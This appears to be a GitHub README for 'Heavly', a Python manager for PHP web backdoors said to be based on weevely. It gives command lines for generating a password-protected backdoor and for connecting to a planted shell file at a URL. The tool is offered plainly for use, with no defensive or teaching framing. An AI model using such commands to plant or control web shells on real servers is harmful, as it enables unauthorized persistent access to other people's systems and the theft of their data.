# Heavly
Backdoor web in python

##Presentation
A web backdoor manager in python, using PHP backdoor, based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

###How to generate your backdoor:
```
    heavly ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
Connecting to the server:
 ```
    heavly ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```

![img1](back.png)
